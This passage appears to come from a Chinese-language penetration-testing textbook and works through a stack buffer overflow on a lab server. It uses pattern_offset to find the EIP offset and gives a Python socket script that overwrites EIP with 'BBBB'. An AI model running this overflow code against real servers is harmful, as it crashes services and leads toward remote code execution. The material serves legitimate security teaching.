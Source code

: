 同样，运行`crash.py`对目标进行攻击将导致服务器再次崩溃。然而，所有的`A`字符都被创建的模式替换了。在易受攻击的服务器上，我们应该能够看到 Immunity Debugger 中的寄存器，它提供了将存储在`EIP`中的下一条指令，如*图 10.29*所示：

![自动生成的文本说明](img/B17765_10_29.png)

图 10.29：注入模式后的应用程序 EIP

这是与下一个 EIP `386F4337`进行模糊测试的结束。要创建一个特定于 Windows 的漏洞利用，我们必须识别 EIP 的正确偏移量。可以使用像`pattern_offset`这样的漏洞利用工具提取该偏移量，`pattern_offset`接受 EIP 输入，并且输入长度与创建模式时使用的长度相同。

```
cd /usr/share/etasploit-framework/tools/exploit/
sudo ./pattern_offset.rb -q 0x386F4337 –l 2984
[*] Exact match at offset 2003 
```

这意味着在使用 EIP 创建的模式中找到了偏移匹配。现在，我们知道缓冲区`2003`足以使服务器崩溃，我们可以开始溢出，并查看是否能够覆盖 EIP：

```
import socket
s = socket.socket()
s.connect(("10.10.10.4",9999))
leng = 2984
offset = 2003
eip = b"BBBB"
payload = [b"TRUN /.:/",b"A"*offset,eip,b"C"*(leng – offset -len(eip))]
payload = b"".join(payload)
s.send(payload)
s.close() 
```

在 Kali Linux 中执行前面的 Python 代码后，您应该看到我们覆盖的 EIP。如果一切正确，您应该在服务器端看到 EIP 为`42424242`，并在 Immunity 调试器中显示：
